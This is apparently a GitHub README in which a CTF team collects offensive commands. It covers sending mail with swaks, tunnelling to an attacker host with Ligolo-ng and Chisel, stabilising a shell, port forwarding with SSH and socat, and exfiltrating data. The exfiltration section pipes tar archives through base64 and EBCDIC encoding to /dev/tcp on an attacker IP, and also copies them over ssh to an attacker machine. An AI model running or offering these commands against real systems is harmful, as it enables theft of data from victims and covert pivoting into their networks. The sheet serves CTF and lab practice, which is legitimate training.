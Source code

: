 # purplestorm-TTPs

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
- [Stabilizing Linux shell](#stabilizing-linux-shell)
- [Exfiltrating Data](#exfiltrating-data)
- [Sliver](Sliver.md)
## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```


## Stabilizing Linux shell
```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

## Exfiltrating Data
### via TCP socket, ebcdic and base64
On kali:
```
nc -nlvp 80 > datafolder.tmp
```
On target:
```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```
On kali:
```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
### via SSH
On target:
```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```
On kali:
```
cd /tmp/datafolder
```

## Port forwarding
### SSH:
```
ssh -N -L 80:localhost:80 user@10.10.10.10 -C
```
### Chisel:
```
./chisel server -p 8000 --reverse #Server -- Attacker
./chisel client 10.10.16.3:8000 R:100:172.17.0.1:100 #Client -- Victim
```
### Socat:
```
socat tcp-listen:8080,reuseaddr,fork tcp:localhost:9200 &
```
